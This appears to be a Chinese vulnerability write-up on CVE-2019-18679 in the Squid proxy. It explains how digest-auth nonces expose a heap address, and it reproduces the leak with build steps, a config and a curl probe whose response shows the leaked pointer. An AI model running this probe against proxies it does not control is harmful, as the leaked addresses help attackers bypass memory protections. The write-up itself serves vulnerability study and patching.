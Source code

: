 # （CVE-2019-18679）Squid 敏感信息泄漏

## 一、漏洞简介

Squid是一个开源的高性能的代理缓存服务器。它接受来自客户端的请求并适当地处理这些请求。例如，如果一个人想下载一web页面，他请求Squid为他取得这个页面。Squid随之连接到远程服务器并向这个页面发出请求。然后，Squid显式地聚集数据到客户端机器，而且同时复制一份。当下一次有人需要同一页面时，Squid可以简单地从磁盘中读到它，那样数据迅即就会传输到客户机上。当前的Squid可以处理HTTP，FTP，GOPHER，SSL和WAIS等协议。

几个月之前，Synacktiv teams对Squid的源码进行审计，发现了几个漏洞，其中一个是在Digest authentication过程中触发的敏感信息泄漏漏洞。

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

漏洞发生在fixHeader函数。nonce变量通过authenticateDigestNonceNew函数申请，authenticateDigestNonceNonceb64取出nonce变量的值，通过httpHeaderPutStrf发送给客户端。

![15904903701.jpg](images/2020_05_26/192edcdecc8941458b91836e98ef1ec8.jpg)

authenticateDigestNonceNonceb64函数单纯的取出了nonce->key的值，重点看下nonce变量和nonce->key的赋值过程。

![2.png](images/2020_05_26/e6a4668eb7294c6fb32099607668b08e.png)

函数authenticateDigestNonceNew申请nonce变量

![3.png](images/2020_05_26/bad78ce0ff7b4dd49f34907abf4d8915.png)

authDigestNonceEncode函数对nonce->noncedata的地址base64编码，赋值给nonce->key

![4.png](images/2020_05_26/cd9b2367ea4549ba900ecf754c9cc43e.png)

最后response header中的nonce字段就是base64编码之后的nonce->noncedata的地址。

### 漏洞复现

下载Squid有漏洞的版本，这里我选择了squid/3.5.28。
编译安装

```bash
./configure --enable-auth --enable-auth-digest
make -j4
make install

```

安装完成之后squid的主要目录结构如下：

```bash
/usr/local/squid/
    ├── sbin
    │   └── squid             //squid程序
    ├── libexec               //辅助程序
    │   ├── basic_smb_auth
    │   └── digest_file_auth
    └── etc
    │   └── squid.conf       //配置文件
    └── logs                 //运行日志
        ├── access.log
        └── cache.log

```

修改配置文件，增加一些内容开启digest auth。

```bash
auth_param digest program <path to program>
auth_param digest children 8
auth_param digest realm Access to Squid
auth_param digest nonce_garbage_interval 10 minutes
auth_param digest nonce_max_duration 45 minutes
auth_param digest nonce_max_count 100
auth_param digest nonce_strictness on

```

运行squid程序，通过squid代理，访问某个网站。返回header中nonce字段就是泄漏的内存地址。

```bash
curl -I -x 192.168.6.22:3128 https://www.baidu.com/

HTTP/1.1 407 Proxy Authentication Required
Server: squid/3.5.28
Mime-Version: 1.0
Date: Wed, 13 May 2020 13:28:15 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 3526
X-Squid-Error: ERR_CACHE_ACCESS_DENIED 0
Vary: Accept-Language
Content-Language: en
Proxy-Authenticate: Digest realm="Access to Squid", nonce="7/W7XgAAAABwTjQEilUAAE+y+jgAAAAA", qop="auth", stale=false
X-Cache: MISS from test
Via: 1.1 test (squid/3.5.28)
Connection: keep-alive

```

## 参考链接

> https://xz.aliyun.com/t/7771

